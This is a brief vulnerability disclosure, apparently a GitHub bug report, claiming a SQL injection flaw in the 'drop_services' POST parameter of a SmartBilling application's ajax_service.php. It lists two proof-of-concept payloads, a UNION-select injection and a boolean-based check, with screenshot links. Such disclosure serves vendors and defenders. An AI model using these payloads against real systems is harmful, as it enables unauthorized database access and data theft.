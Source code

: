 BUG_Author:yastar

Vulnerability File: /smartbilling_source_code/ajax_service.php

POST parameter 'drop_services' exists SQL injection vulnerability

Payload1:drop_services=-1' union all select null,null,null,null,concat(0x616263,0x2526272829),null,null,null,null-- -

![image](https://github.com/Yastar/bug_report/blob/main/sql1.png)

Payload2:drop_services=1' and 999=999 and 'h'='h

Boolean judgment is correct, and the page displays normally

![image](https://github.com/Yastar/bug_report/blob/main/sql2.png)
